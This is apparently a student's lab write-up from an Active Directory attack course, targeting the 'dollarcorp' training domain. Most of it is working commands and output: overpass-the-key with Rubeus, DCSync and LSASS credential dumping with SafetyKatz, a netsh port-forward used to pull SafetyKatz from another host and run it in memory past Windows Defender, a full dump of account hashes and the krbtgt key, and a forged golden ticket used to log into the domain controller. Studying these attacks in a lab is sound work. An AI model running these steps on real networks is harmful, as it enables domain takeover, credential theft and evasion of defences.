


# **i)Extract secrets from the domain controller of dollarcorp.ii)Using the secrets of krbtgt account, create a Golden ticket.iii)Use the Golden ticket to (once again) get domain admin privileges from a machine.**

i)
Get the shell of domain admin here svc using the overpass the key attack
```C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt```

There are two ways of extracting creadentials from DC
1]DC Sync attack
2]lsass credential extraction

First we move on with DC Sync,, for doing dcsync we need priv of da,ea,domaincontrollers here we have DA priv
so in the svc admin shell run dcsync:```C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"```
O/P:

we get both ntlm and aes of krbtgt account,,we can use it to do ticket attacks

Second extracting the credentials from the memory of the DC:
for that we need to download and run safetykatz in memory of DC so copy loader to dc: ```echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y```
connect to dc as svc admin:```winrs -r:dcorp-dc cmd```
set portforwarding in dc to download safetykatz form remote location without detected by windows defender
command:```>netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.219```
Start to extract creds from memory of DC
command:```C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-lsa /patch" "exit"```
O\P:only contains the ntlm hashes if we want aes then do dc sync
mimikatz(commandline) # lsadump::evasive-lsa /patch
Domain : dcorp / S-1-5-21-719815819-3726368948-3917688648

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : af0686cc0ca8f04df42210c9ac980760

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 4e9815869d2090ccfca61c1fe0d23986

RID  : 00000459 (1113)
User : sqladmin
LM   :
NTLM : 07e8be316e3da9a042a9cb681df19bf5

RID  : 0000045a (1114)
User : websvc
LM   :
NTLM : cc098f204c5887eaa8253e7c2749156f

RID  : 0000045b (1115)
User : srvadmin
LM   :
NTLM : a98e18228819e8eec3dfa33cb68b0728

RID  : 0000045d (1117)
User : appadmin
LM   :
NTLM : d549831a955fee51a43c83efb3928fa7

RID  : 0000045e (1118)
User : svcadmin
LM   :
NTLM : b38ff50264b74508085d82c69794a4d8

RID  : 0000045f (1119)
User : testda
LM   :
NTLM : a16452f790729fa34e8f3a08f234a82c

RID  : 00000460 (1120)
User : mgmtadmin
LM   :
NTLM : 95e2cd7ff77379e34c6e46265e75d754

RID  : 00000461 (1121)
User : ciadmin
LM   :
NTLM : e08253add90dccf1a208523d02998c3d

RID  : 00000462 (1122)
User : sql1admin
LM   :
NTLM : e999ae4bd06932620a1e78d2112138c6

RID  : 00001055 (4181)
User : studentadmin
LM   :
NTLM : d1254f303421d3cdbdc4c73a5bce0201

RID  : 000042cd (17101)
User : devopsadmin
LM   :
NTLM : 63abbf0737c59a3142175b1665cd51ee


RID  : 000003e8 (1000)
User : DCORP-DC$
LM   :
NTLM : f37197322251094aca100d3a0afbd3ef

RID  : 00000451 (1105)
User : DCORP-ADMINSRV$
LM   :
NTLM : b5f451985fd34d58d5120816d31b5565

RID  : 00000452 (1106)
User : DCORP-APPSRV$
LM   :
NTLM : b4cb7bf8b93c78b8051c7906bb054dc5

RID  : 00000453 (1107)
User : DCORP-CI$
LM   :
NTLM : b1cbc9af67737527f94a9455edd13347

RID  : 00000454 (1108)
User : DCORP-MGMT$
LM   :
NTLM : 0878da540f45b31b974f73312c18e754

RID  : 00000455 (1109)
User : DCORP-MSSQL$
LM   :
NTLM : b205f1ca05bedace801893d6aa5aca27

RID  : 00000456 (1110)
User : DCORP-SQL1$
LM   :
NTLM : 3686dfb420dc0f9635e70c6ca5875b49


RID  : 0000044f (1103)
User : mcorp$
LM   :
NTLM : 84dac7048c7c9fdd79911a62e5620e81

RID  : 00000450 (1104)
User : US$
LM   :
NTLM : ba8bebb8297a374ae2e531d16dc90298

RID  : 00000458 (1112)
User : ecorp$
LM   :
NTLM : c70bd4a427e9decd8c9135299c63226e

ii) and iii)creating golden ticket attack and gettig domain admin priv
using the aes key of krbtgt account obtained by dcsync atttack we can forge a golden ticket
run the below command in student vm shell without invishell
command:```C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /printcmd```
O/P:
C:\AD\Tools\Loader.exe Evasive-Golden /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:34:22 AM" /logoncount:1087 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD

in the above output generated add -path C:\AD\Tools\Rubeus.exe -args in the begining after Loader.exe and in the end add /ptt to inject forged ticket in current session.
after adding the command should look like this:
```C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args Evasive-Golden /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:34:22 AM" /logoncount:1087 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt```
run the command so that the forged ticket will be imported.
After that login to dc as Administrator using the forged golden ticket
```winrs -r:dcorp-dc cmd```
then check username and computername



